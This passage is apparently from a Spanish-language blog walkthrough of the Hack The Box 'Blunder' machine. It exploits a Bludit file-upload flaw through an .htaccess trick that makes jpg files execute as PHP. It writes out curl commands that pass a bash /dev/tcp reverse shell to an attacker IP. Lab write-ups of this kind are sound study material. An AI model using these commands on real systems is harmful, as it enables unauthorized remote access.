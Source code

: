 * [POC del exploit](https://github.com/bludit/bludit/issues/1081).

...

## Explotación {#explotacion}

Deeeeeeeespues de mucho sufrimiento, confundido con el POC por que simplemente siguiendo los pasos no obtenia nada, intente algo diferente (sencillo, basico y que debi probar al inicio :P) un RCE con un simple **system** y **echo**. Logre obtener resultados, hice estos pasos:

* Como se muestra en el POC se captura la petición mediante BurpSuite.
* Se modifica el contenido.

![burpImage](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/burpImage.png)

Verificando...

![burpCheckImage](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/burpCheckImage.png)

* Subir el archivo `.htaccess` para que el servidor interprete las imagenes `jpg` con contenido `php` 

![burphtaccess](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/burphtaccess.png)

* Hacer peticiones hacia el archivo creado, asi validamos que si encuentra el archivo en el sistema

![burpcontrol](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/burpcontrol.png)

* Verificar que podamos ejecutar comandos.

![webRCE](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/webRCE.png)

Listo, ahora podemos intentar subir una reverse shell... 

Habia probado encodear la URL pero solo lo hice con algunos caracteres, ya que al ejecutar el comando en limpio no pasaba nada, pero despues probé encodear toda la URL y así si me funciono :) 

De esto:

```bash
$ curl http://10.10.10.191/bl-content/tmp/buenobueno.jpg?xmd=bash -c 'bash -i >& /dev/tcp/10.10.15.26/443 0>&1'
```

A esto:

```bash
$ curl http://10.10.10.191/bl-content/tmp/buenobueno.jpg?xmd=bash%20-c%20%27bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.15.26%2F443%200%3E%261%27
```

![revshellwww](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/blunder/revshellwww.png)

Perfe, el problema es que con la shell que tengo estoy limitado ya que no puedo volver a algun comando que haya escrito, asi que la transformaré para que sea completamente interactiva.

* [Convertir a una shell completamente interactiva](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/).
* [Varias opciones](https://netsec.ws/?p=337).
* [Resumido y facil (Gracias s4vitar)](https://www.youtube.com/watch?v=amKkzk-yP14&t=953).
